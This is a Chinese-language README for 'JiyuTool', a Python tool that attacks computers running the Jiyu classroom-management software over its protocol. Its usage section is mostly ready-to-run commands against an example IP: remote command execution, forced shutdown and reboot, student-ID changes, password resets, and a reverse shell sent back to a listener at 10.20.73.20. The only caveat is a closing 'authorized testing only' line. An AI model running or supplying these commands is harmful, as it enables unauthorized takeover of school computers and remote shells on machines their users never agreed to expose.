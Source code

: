# JiyuTool

JiyuTool 是一款通过极域特定协议与远程系统通信的工具，支持远程命令执行、关机重启、发送消息、修改ID等功能，还可发起反向Shell连接。

## 功能特性

- 远程执行命令
- 修改学生端 ID
- 重置密码
- 关机与重启控制
- 发送消息
- 发起反向 Shell

## 使用方法

### 环境依赖

- Python 3.6+

### 命令行参数

```
python Jiyutool.py --ip <目标IP> [--port <目标端口>] <command> [command_options]
```

#### 可用命令

```
# 关机
python Jiyutool.py --ip 192.168.1.10 power --shutdown

# 重启
python Jiyutool.py --ip 192.168.1.10 power

# 执行命令
python Jiyutool.py --ip 192.168.1.10 exec --cmd "whoami"

# 发消息
python Jiyutool.py --ip 192.168.1.10 message --msg "请保存好你的文件，系统将重启"

# 修改学生ID
python Jiyutool.py --ip 192.168.1.10 id --tid 12

# 重置密码
python Jiyutool.py --ip 192.168.1.10 reset --pwd newpass123

# 注入反向shell
python Jiyutool.py --ip 192.168.1.10 shell --lhost 10.20.73.20
```



## 注意事项

- 仅供授权测试使用！禁止用于非法用途！

